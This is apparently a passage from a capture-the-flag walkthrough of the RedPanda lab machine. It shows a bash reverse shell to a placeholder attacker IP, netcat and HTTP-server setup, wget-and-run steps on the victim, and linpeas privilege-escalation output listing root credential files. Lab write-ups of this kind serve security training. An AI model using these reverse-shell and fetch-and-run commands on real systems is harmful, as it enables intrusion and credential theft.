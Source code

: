 	cat shell.sh

```text
bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'
```

Attacker:

	python3 -m http.server 80
	nc -lvnp 1234
	python3 exploit.py


Victim:

	wget <attacker_ip>/shell.sh
	bash shell.sh

```bash
woodenk@redpanda $
```

#### Scan for privilege escalations

Attacker:

	python3 -m http.server 80

Victim:

	wget <attacker_ip>/linpeas.sh
	chmod +x linpeas.sh
	./linpeas.sh

```text
<...SNIP...>
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                             
Sudo version 1.8.31                                                                                                                                                                                                                         

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

root         /usr/sbin/cron -f
root            /usr/sbin/CRON -f
root                /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root                    sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
woodenk                     java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar

╔══════════╣ Unexpected in root
/credits

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root logs 422 Jun 21 12:31 /credits/damian_creds.xml                                                                                                                                                                           
-rw-r----- 1 root logs 426 Aug 28 22:30 /credits/woodenk_creds.xml
-rw-r----- 1 root woodenk 33 Aug 28 22:15 /home/woodenk/user.txt
<...SNIP...>
```
